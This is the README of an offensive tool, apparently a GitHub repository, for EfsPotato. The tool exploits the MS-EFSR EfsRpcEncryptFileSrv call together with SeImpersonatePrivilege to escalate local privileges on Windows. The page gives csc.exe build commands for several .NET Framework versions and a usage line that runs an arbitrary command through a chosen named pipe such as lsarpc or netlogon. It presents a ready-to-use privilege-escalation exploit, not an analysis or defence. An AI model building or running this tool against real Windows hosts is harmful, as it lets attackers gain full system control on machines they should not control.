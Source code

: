 ## Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).

### build

	#for 4.x
	csc.exe EfsPotato.cs -nowarn:1691,618
	csc /platform:x86 EfsPotato.cs -nowarn:1691,618
	
	#for 2.0/3.5
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs -nowarn:1691,618
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs -nowarn:1691,618

### usage

	usage: EfsPotato <cmd> [pipe]
  	  pipe -> lsarpc|efsrpc|samr|lsass|netlogon (default=lsarpc)

![](https://raw.githubusercontent.com/zcgonvh/EfsPotato/master/test.png)
 
